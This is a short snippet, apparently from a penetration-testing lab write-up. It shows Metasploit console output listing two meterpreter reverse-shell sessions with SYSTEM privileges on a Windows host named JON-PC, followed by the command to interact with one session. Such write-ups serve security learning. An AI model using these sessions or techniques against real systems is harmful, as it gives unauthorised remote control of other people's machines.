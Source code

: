 ```bash
msf6 > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```
